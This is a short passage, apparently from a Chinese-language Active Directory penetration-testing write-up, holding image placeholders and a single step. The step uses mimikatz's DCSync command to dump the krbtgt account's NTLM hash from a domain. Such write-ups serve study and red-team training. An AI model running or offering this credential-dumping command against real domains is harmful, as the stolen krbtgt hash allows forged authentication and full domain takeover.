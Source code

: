 ![](images/38.jpg)

使用 mimikatz 导出 krbtgt 的 NTLM Hash（这一步多此一举）：

	lsadump::dcsync /domain:lmrsec.com /user:krbtgt

![](images/46.jpg)
